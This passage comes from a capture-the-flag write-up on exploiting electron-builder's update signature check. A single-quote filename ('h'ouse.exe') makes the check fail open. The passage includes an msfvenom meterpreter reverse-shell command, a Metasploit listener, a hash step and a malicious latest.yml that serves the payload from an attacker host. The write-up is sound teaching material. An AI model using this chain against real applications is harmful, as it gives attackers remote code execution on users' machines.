 So as I understood it, `electron-builder` is a library that will _automatically re-compile your application when presented with a new `latest.yml` file_. That sounds fun and dangerous 😈 The documentation has a _lot_ more stuff that isn't relevant to us, but I still encourage you to read it - it'll help finish off your understanding of the abilities that `electron-builder` has built-in. Rock on!

Time to bounce back to understanding Doyonsec's article. In it they mention that there's a "Fail Open" flaw in how the underlying Powershell command is handled when taking in a filename that contains a `'` character. [If you're not familiar with Fail Open](https://resources.infosecinstitute.com/topic/fail-open-authentication/), it's a term granted to some sort of check that when failed continues as if nothing wrong occurred. In a lot of cases this is associated with authentication in some format ([think TOTP implementations](https://www.n00py.io/2018/08/bypassing-duo-two-factor-authentication-fail-open/)), but it can be abstracted out to code in general. With that in mind let's re-visit the Powershell command we ultimately end up at when verifying the file signature (taken from Doyonsec's article; seriously, go read it):

```
powershell.exe -NoProfile -NonInteractive -InputFormat None -Command "Get-AuthenticodeSignature 'C:\Users\<USER>\AppData\Roaming\<vulnerable app name>\__update__\<update name>.exe' | ConvertTo-Json -Compress"
```

What's happening is that we put in a filename with `'` in it and cause it to break the `Get-AuthenticodeSignature` call. It looks something like this if we use the name `h'ouse.exe`:

```
powershell.exe -NoProfile -NonInteractive -InputFormat None -Command "Get-AuthenticodeSignature 'C:\Users\sp1icer\AppData\Roaming\heed-v1\__update__\h'ouse.exe | ConvertTo-Json -Compress"
```

Effectively, it ends up at `powershell.exe -NoProfile -NonInteractive -InputFormat None -Command "Get-AuthenticodeSignature 'C:\Users\sp1icer\AppData\Roaming\heed-v1\__update__\h'`. As you can see, that's not a complete command - thus it will fail, but _fail open_. We can then provide any manner of executable to the app and it will accept it as if it was vetted. Woah!

In order to keep the article not-one-million-lines-long, I've decided to skip the PoC portion of the exercise. Let's get directly down and dirty with Metasploit to generate the code and catch shells...

{: .notice--info}
I want to stop here and thank [Pascal_0x90](https://twitter.com/Pascal_0x90) - without a small hint to _also_ generate my payload with the `'` character, I'd have been here staring at my terminal like a friggin moron. Y'know, kind of like normal - just without flags to accompany it. Thanks Pascal!

* Generate a shell: `msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=443 -f exe -o "h'ouse.exe" -e x86/shikata_ga_nai -b '\x00'`
* Get the sha512 of the revshell: `shasum -a 512 "h'ouse.exe"| cut -d " " -f1 | xxd -r -p | base64 -w0`
* Start our listener: `msfconsole -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost tun0; set lport 443; run"`
* Start a Python dev server: `python3 -m http.server 80`
* Set up the `latest.yml`: contents below

With that, we're set up - well, except for the `latest.yml`, so let's fix that. Edit a file however you please (I use ~~vi~~ nano) and enter the following contents:

```yaml
version: 1.2.4
path: http://10.10.17.239/h'ouse.exe
sha512: +r+/9b67/pdt/6W2CBu3AWiJqaHVTd0HFe9Ilk4Sh4xJIKxlB4l4DR62/cpRe9N6UoP6VakAi/LN0sOjszILuA==
```
